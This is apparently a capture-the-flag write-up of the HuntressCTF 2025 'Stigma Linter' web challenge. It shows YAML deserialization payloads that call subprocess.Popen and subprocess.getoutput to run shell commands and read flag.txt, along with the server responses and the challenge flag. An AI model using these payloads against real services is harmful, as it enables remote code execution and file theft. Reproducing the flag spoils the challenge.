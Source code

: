 ```yaml
---
title: "HuntressCTF 2025 - Stigma Linter"
date: 2025-10-06
categories: [Capture The Flags, HuntressCTF2025]
tags: [CTF, Writeups, Web, YAML Injection]
---
```


## Challenge Prompt

Oh wow, another web app interface for command-line tools that already exist!

This one seems a little busted, though...

---

The Challenge:

![web interface](/assets/img/huntressCTF2025/stigmaLinter/image.png)

Setting up burp suite and capturing the request:

![burp suite](/assets/img/huntressCTF2025/stigmaLinter/burp.png)

Sending the request to the repeater:

![repeater](/assets/img/huntressCTF2025/stigmaLinter/repeater.png)

---
## Recon

---

### 1.1 Payload 1 (testing for YAML Injection)

YAML Content: 
```
{"yaml_content":"title: !!python/object/apply:subprocess.Popen\n- ls\nlogsource:\n category: process_creation\n product: windows\ndetection:\n selection:\n Image: '*\\\\cmd.exe'\n CommandLine: '* /c *'\n condition: selection\nlevel: medium\ndescription: Detects suspicious command execution\nauthor: Security Team","method":"s2"}
```

Request Interpretation: !!python/object/apply:subprocess.Popen attempts to instantiate a Popen object — if the YAML loader executes constructors, the call will run.


![request1](/assets/img/huntressCTF2025/stigmaLinter/request1.png)

Response: 

```
{"error_type":"unexpected","formatted_code":"title: !!python/object/apply:subprocess.Popen\n- ls\nlogsource:\n category: process_creation\n product: windows\ndetection:\n selection:\n Image: '*\\\\cmd.exe'\n CommandLine: '* /c *'\n condition: selection\nlevel: medium\ndescription: Detects suspicious command execution\nauthor: Security Team","reasons":["Unexpected error: cannot pickle '_thread.lock' object"],"result":false}
```

*Vulnerability: Popen returns an unpicklable object (contains thread locks). The server serializes/validates the loaded result, so the returned value must be primitive/picklable (string/bytes/int).*

This proves arbitrary Python constructors were executed during YAML load

---

### 1.2 Payload 2 (directory listing)

YAML Content: 

```
{
  "yaml_content": "title: !!python/object/apply:subprocess.getoutput\n- ls -la\nlogsource:\n  category: process_creation\n  product: windows\n...",
  "method": "s2"
}
```

*return a directory listing (string) to confirm command execution and read available files.*

![request2](/assets/img/huntressCTF2025/stigmaLinter/request2.png)

Response: 

```
{"error_type":"validation","formatted_code":"title: 'total 44\n\n  drwxr-xr-x 1 root root  4096 Sep 27 16:51 .\n\n  drwxr-xr-x 1 root root  4096 Oct  6 12:19 ..\n\n  -rw-r--r-- 1 root root     0 Sep 27 16:50 .placeholder\n\n  -rw-r--r-- 1 root root   173 Sep 27 01:22 Dockerfile\n\n  -rw-r--r-- 1 root root 11802 Sep 27 01:43 app.py\n\n  -rw-r--r-- 1 root root   221 Sep 27 01:22 docker-compose.yml\n\n  -rw-r--r-- 1 root root    40 Sep 27 01:22 flag.txt\n\n  -rw-r--r-- 1 root root    49 Sep 27 01:22 requirements.txt\n\n  drwxr-xr-x 4 root root  4096 Sep 27 16:50 static\n\n  drwxr-xr-x 2 root root  4096 Sep 27 16:50 templates'\nlogsource:\n  category: process_creation\n  product: windows\n","reasons":["'detection' is a required property","'total 44\\ndrwxr-xr-x 1 root root  4096 Sep 27 16:51 .\\ndrwxr-xr-x 1 root root  4096 Oct  6 12:19 ..\\n-rw-r--r-- 1 root root     0 Sep 27 16:50 .placeholder\\n-rw-r--r-- 1 root root   173 Sep 27 01:22 Dockerfile\\n-rw-r--r-- 1 root root 11802 Sep 27 01:43 app.py\\n-rw-r--r-- 1 root root   221 Sep 27 01:22 docker-compose.yml\\n-rw-r--r-- 1 root root    40 Sep 27 01:22 flag.txt\\n-rw-r--r-- 1 root root    49 Sep 27 01:22 requirements.txt\\ndrwxr-xr-x 4 root root  4096 Sep 27 16:50 static\\ndrwxr-xr-x 2 root root  4096 Sep 27 16:50 templates' is too long"],"result":false}
```

The server returned the ls -la output, confirming we can read files. Also, the listing shows flag.txt which we want to get

---

### 1.3 Payload 3 (reading the flag)

YAML Content:

```
{
  "yaml_content": "title: !!python/object/apply:subprocess.getoutput\n- cat flag.txt\nlogsource:\n  category: process_creation\n  product: windows\n...",
  "method": "s2"
}
```

*using cat command to read the flag*

![request3](/assets/img/huntressCTF2025/stigmaLinter/request3.png)

Response:

```
{"error_type":"validation","formatted_code":"title: flag{b692115306c8e5c54a2c8908371a4c72}\nlogsource:\n  category: process_creation\n  product: windows\n","reasons":["'detection' is a required property"],"result":false}
```

Flag: flag{b692115306c8e5c54a2c8908371a4c72}



